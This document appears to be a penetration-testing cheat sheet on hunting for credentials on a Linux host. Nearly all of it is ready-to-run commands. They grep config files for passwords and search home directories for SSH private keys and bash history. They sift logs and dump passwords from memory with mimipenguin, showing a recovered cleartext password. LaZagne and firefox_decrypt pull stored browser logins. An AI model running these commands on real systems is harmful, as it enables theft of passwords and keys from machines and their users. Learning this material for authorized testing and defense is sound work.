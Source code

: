#### Configuration Files

  Configuration Files

```shell-session
cry0l1t3@unixclient:~$ for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```
#### Credentials in Configuration Files

  Credentials in Configuration Files

```shell-session
cry0l1t3@unixclient:~$ for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
```
#### Databases

  Databases

```shell-session
cry0l1t3@unixclient:~$ for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```
#### Notes

  Notes

```shell-session
cry0l1t3@unixclient:~$ find /home/* -type f -name "*.txt" -o ! -name "*.*"
```
#### Scripts

  Scripts

```shell-session
cry0l1t3@unixclient:~$ for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```
#### Cronjobs

  Cronjobs

```shell-session
cry0l1t3@unixclient:~$ cat /etc/crontab 
```

#### SSH Private Keys

  SSH Private Keys

```shell-session
cry0l1t3@unixclient:~$ grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
```
#### SSH Public Keys

  SSH Public Keys

```shell-session
cry0l1t3@unixclient:~$ grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"
```
#### Bash History

  Bash History

```shell-session
cry0l1t3@unixclient:~$ tail -n5 /home/*/.bash*
```
#### Logs

```shell-session
cry0l1t3@unixclient:~$ for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```
#### Memory - Mimipenguin

  Memory - Mimipenguin

```shell-session
cry0l1t3@unixclient:~$ sudo python3 mimipenguin.py
[sudo] password for cry0l1t3: 

[SYSTEM - GNOME]	cry0l1t3:WLpAEXFa0SbqOHY


cry0l1t3@unixclient:~$ sudo bash mimipenguin.sh 
```
#### Memory - LaZagne

  Memory - LaZagne

```shell-session
cry0l1t3@unixclient:~$ sudo python2.7 laZagne.py all
```
#### Firefox Stored Credentials

  Firefox Stored Credentials

```shell-session
cry0l1t3@unixclient:~$ ls -l .mozilla/firefox/ | grep default 
```
```shell-session
cry0l1t3@unixclient:~$ cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
```
```shell-session
Tachipy@htb[/htb]$ python3.9 firefox_decrypt.py
```
OR:
```shell-session
python3 laZagne.py browsers
```
